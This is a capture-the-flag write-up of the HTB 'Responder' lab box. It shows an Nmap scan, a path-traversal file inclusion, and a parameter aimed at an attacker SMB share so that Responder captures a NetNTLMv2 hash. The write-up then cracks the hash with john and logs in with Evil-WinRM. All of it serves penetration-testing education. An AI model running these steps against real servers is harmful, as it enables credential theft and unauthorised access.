










# 🧠 Responder – HTB Starting Point Write-Up  
**Author:** yvngdrac  
**Tier:** 1  
**Category:** Windows, LFI, Responder, NetNTLMv2, Password Cracking, Evil-WinRM  

---

## 🗒️ Introduction  
Windows remains the dominant OS in enterprise environments, often configured with Active Directory and legacy authentication protocols like NTLM.  
This box demonstrates how a **File Inclusion vulnerability** can be abused to capture a **NetNTLMv2 challenge** via `Responder`, then crack it using `JohnTheRipper` to gain a shell with **Evil-WinRM**.

---

## 🔍 Enumeration  

Performed an Nmap scan:

```bash
nmap -p- --min-rate 1000 -sV 10.129.187.37
```



Discovered:
- Port 80 (HTTP)
- Possible web app hosted

We add `unika.htb` to the `/etc/hosts` file so the browser can resolve it and send the correct `Host` header:
```
echo "10.129.187.37 unika.htb" | sudo tee -a /etc/hosts
```
Visited the site: **Unika**



---

## 📤 LFI Discovery  

Found an input field that takes strings:



Tested for LFI using:

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```



Confirmed inclusion leads to outbound request from server — ✅ **vulnerable to LFI**.

---

## 🧪 Responder Setup  

Started `Responder` on local machine:

```bash
sudo responder -I tun0
```



Then configured the parameter to call our malicious SMB path:
```
http://unika.htb/?page=//10.10.14.17/somefile
```



---

## 🪝 NTLMv2 Hash Captured  

Boom — captured a **NetNTLMv2 hash** for user `admin`.



Saved the hash to a file: `hash.txt`

---

## 🔓 Cracking the Hash  

Used `JohnTheRipper` with the rockyou wordlist:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

Cracked password: **badminton**


---

## 🩸 Shell Access – Evil-WinRM  

Logged in using Evil-WinRM:

```bash
evil-winrm -i 10.129.187.37 -u admin -p badminton
```



Listed directories and found the flag:

```bash
dir
type flag.txt
```

  


---

## 🔚 What I Learned  

- How NTLMv2 works and why it's still dangerous when combined with LFI (Local File Inclusion) 
- Using `Responder` to capture hashes  
- Cracking hashes with `john`  
- Practical use of `Evil-WinRM` to get reverse shells on Windows targets  

---

## 🧰 Tools Used  
- Nmap  
- Responder  
- JohnTheRipper  
- Evil-WinRM    


---

## ✅ Final Thoughts  

Even though this was a Starting Point machine, the attack chain reflects a **real-world vuln combo** (LFI ➝ SMB relay ➝ NTLMv2 ➝ cracked creds ➝ WinRM shell). This box reinforces how outdated configurations can still lead to pwnage 💀.

---


